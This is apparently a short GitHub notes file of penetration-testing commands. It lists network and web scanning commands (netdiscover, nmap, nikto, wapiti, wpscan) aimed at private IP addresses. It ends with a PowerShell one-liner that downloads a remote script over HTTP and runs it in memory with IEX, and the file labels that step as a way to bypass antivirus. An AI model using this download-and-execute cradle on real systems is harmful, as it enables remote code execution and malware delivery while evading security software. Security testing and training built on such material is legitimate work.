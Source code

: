 # tools
few scripts and useful commands

# scan
netdiscover -r 192.168.10.130/24 \n
nmap -A -sS 192.168.10.135 \n
nikto -h http://192.168.10.135/site \n
wapiti http://192.168.10.134/site \n
wordpress : wpscan --url http://192.168.10.135/site \n

# windows
run ps1 script in memory (bypass antivirus) : powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')
